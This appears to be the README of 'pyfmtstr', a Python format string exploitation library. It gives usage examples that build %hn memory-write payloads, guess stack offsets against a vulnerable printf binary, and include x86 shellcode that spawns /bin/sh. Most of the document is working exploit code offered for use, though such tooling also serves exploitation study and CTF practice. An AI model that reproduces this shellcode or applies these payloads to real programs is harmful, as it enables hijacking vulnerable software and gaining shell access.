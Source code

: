 # pyfmtstr

format string exploitation library by cloud

This library shamelessly rips code from a bunch of existing libraries:
* postmodern - Ronin FormatString Helper
* Paul Haas - Defcon 18 Auto Format Brute Forcer
* hellman - libformatstr
* jduck - Metasploit FormatString Mixin

I just reoganized/combined things in a way that I prefer.

# Usage

### Generate simple fmtstr using %hn and DPA

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m)
sys.stdout.write(f.generate_fmtstr())
```

### Generate fmtstr using customized options

```
from pyfmtstr import pyfmtstr,membuf
m = membuf()
m[0x080494d4] = 0xbfffddd8
f = pyfmtstr(membuf=m, num_pops=1, pad_bytes=2, printed_bytes=50)
f.set_caps(fpu=False, hn=True, dpa=True)
sys.stdout.write(f.generate_fmtstr())
```

### Dynamically guess offsets

```
from pyfmtstr import exploit
sc = "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69" \
     "\x6e\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"
e = exploit(binary="vuln_prog/printf", shellcode=sc)
sc_offset,sc_align  = e.dump_stack()
fmtstr_addr,sc_addr = e.find_fmtstr_address()
```

### Random helper functions 

```
from pyfmtstr import exploit
e = exploit(binary="vuln_prog/printf", shellcode=sc)
e.detect_caps()
e.detect_vulnerable()
e.stack_read(offset=1)
```
